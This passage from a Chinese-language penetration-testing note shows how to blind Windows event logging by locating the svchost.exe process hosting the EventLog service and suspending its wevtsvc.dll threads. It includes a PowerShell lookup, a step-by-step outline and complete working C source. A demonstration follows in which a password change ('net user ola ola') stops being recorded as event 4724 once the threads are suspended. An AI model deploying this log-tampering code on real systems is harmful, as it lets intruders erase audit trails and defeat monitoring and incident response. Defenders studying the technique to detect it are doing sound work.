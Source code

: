	Windows事件日志由svchost.exe托管处理。EventLog
	如果我们列出svchost进程，则会看到许多这样的进程：
![image](/assets/Pentest_Note/master/img/815.png)

	从上面的屏幕截图中，尚不清楚哪个进程真正托管了该服务，但是如果我们继续在Process Hacker中逐个检查进程，我们最终将找到托管该服务的进程，当前为pid 2196：EventLog svchost.exe
![image](/assets/Pentest_Note/master/img/816.png)

	通过以下命令获得eventlog的进程ID
	Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId
![image](/assets/Pentest_Note/master/img/817.png)

	如果我们查看的svchost.exe线程，则会看到
![image](/assets/Pentest_Note/master/img/818.png)

	下面显示的是，确实，暂停足以使EventLog服务无法注册任何新事件：
	没有挂起时修改个密码
![image](/assets/Pentest_Note/master/img/819.png)

	会注册新的事件
	挂起时则没有新的事件
![image](/assets/Pentest_Note/master/img/820.png)

	代码实现
	下面是在较高级别下工作的技术代码：
	1.使用OpenSCManagerA命令打开服务控制管理器的句柄 
	2.使用OpenServiceA命令打开EventLog服务的句柄 
	3.使用QueryServiceStatusEx命令检索svchost.exe（托管EventLog）进程ID
	4.打开svchost.exe进程的句柄（从第3步开始）
	5.获取由svchost.exe加载的已加载模块的列表 EnumProcessModules
	6.循环浏览在步骤5中检索到的已加载模块列表，使用查找其名称并找到模块的基地址-这是包含服务内部工作的模块
	7.获取模块信息。它将返回带有模块的起始地址-我们稍后将在确定服务线程是否落入wevtsvc.dll模块的内存空间时需要这些详细信息wevtsvc.dll   GetModuleInformation EventLog
	8.枚举svchost.exe内的所有线程。Thread32FirstThread32Next
	9.对于步骤8中的每个线程，使用NtQueryInformationThread命令检索线程的起始地址 
	10.对于步骤8中的每个线程，检查线程的起始地址是否属于svchost.exe内部的内存空间。wevtsvc.dll
	11.如果线程的起始地址在内存空间内，则这是我们的目标线程，我们将其挂起wevtsvc.dll SuspendThread
	12.EventLog 服务现已禁用
```c
#include <iostream>
#include <Windows.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <dbghelp.h>
#include <winternl.h>
#pragma comment(lib, "DbgHelp")
using myNtQueryInformationThread = NTSTATUS(NTAPI*)(
IN HANDLE ThreadHandle,
IN THREADINFOCLASS ThreadInformationClass,
OUT PVOID ThreadInformation,
IN ULONG ThreadInformationLength,
OUT PULONG ReturnLength
);
int main()
{
HANDLE serviceProcessHandle;
HANDLE snapshotHandle;
HANDLE threadHandle;
HMODULE modules[256] = {};
SIZE_T modulesSize = sizeof(modules);
DWORD modulesSizeNeeded = 0;
DWORD moduleNameSize = 0;
SIZE_T modulesCount = 0;
WCHAR remoteModuleName[128] = {};
HMODULE serviceModule = NULL;
MODULEINFO serviceModuleInfo = {};
DWORD_PTR threadStartAddress = 0;
DWORD bytesNeeded = 0;
myNtQueryInformationThread NtQueryInformationThread = (myNtQueryInformationThread)(GetProcAddress(GetModuleHandleA("ntdll"), "NtQueryInformationThread"));
THREADENTRY32 threadEntry;
threadEntry.dwSize = sizeof(THREADENTRY32);
SC_HANDLE sc = OpenSCManagerA(".", NULL, MAXIMUM_ALLOWED);
SC_HANDLE service = OpenServiceA(sc, "EventLog", MAXIMUM_ALLOWED);
SERVICE_STATUS_PROCESS serviceStatusProcess = {};
# Get PID of svchost.exe that hosts EventLog service
QueryServiceStatusEx(service, SC_STATUS_PROCESS_INFO, (LPBYTE)&serviceStatusProcess, sizeof(serviceStatusProcess), &bytesNeeded);
DWORD servicePID = serviceStatusProcess.dwProcessId;
# Open handle to the svchost.exe
serviceProcessHandle = OpenProcess(MAXIMUM_ALLOWED, FALSE, servicePID);
snapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
# Get a list of modules loaded by svchost.exe
EnumProcessModules(serviceProcessHandle, modules, modulesSize, &modulesSizeNeeded);
modulesCount = modulesSizeNeeded / sizeof(HMODULE);
for (size_t i = 0; i < modulesCount; i++)
{
serviceModule = modules[i];
# Get loaded module's name
GetModuleBaseName(serviceProcessHandle, serviceModule, remoteModuleName, sizeof(remoteModuleName));
if (wcscmp(remoteModuleName, L"wevtsvc.dll") == 0)
{
printf("Windows EventLog module %S at %p\n\n", remoteModuleName, serviceModule);
GetModuleInformation(serviceProcessHandle, serviceModule, &serviceModuleInfo, sizeof(MODULEINFO));
}
}
# Enumerate threads
Thread32First(snapshotHandle, &threadEntry);
while (Thread32Next(snapshotHandle, &threadEntry))
{
if (threadEntry.th32OwnerProcessID == servicePID)
{
threadHandle = OpenThread(MAXIMUM_ALLOWED, FALSE, threadEntry.th32ThreadID);
NtQueryInformationThread(threadHandle, (THREADINFOCLASS)0x9, &threadStartAddress, sizeof(DWORD_PTR), NULL);
# Check if thread's start address is inside wevtsvc.dll memory range
if (threadStartAddress >= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll && threadStartAddress <= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll + serviceModuleInfo.SizeOfImage)
{
printf("Suspending EventLog thread %d with start address %p\n", threadEntry.th32ThreadID, threadStartAddress);
# Suspend EventLog service thread
SuspendThread(threadHandle);
Sleep(2000);
}
}
}
return 0;
}

```
	以下演示
	net user ola ola执行并更改用户的ola密码，并在6:55:30 PM记录事件4724
![image](/assets/Pentest_Note/master/img/821.png)
![image](/assets/Pentest_Note/master/img/822.png)

	执行文件，svchost.exe中暂停了4个EventLog线程
![image](/assets/Pentest_Note/master/img/823.png)
![image](/assets/Pentest_Note/master/img/824.png)

	再次执行修改密码命令
![image](/assets/Pentest_Note/master/img/825.png)
![image](/assets/Pentest_Note/master/img/826.png)

	新的事件没有写入，只有挂起前的事件
![image](/assets/Pentest_Note/master/img/827.png)
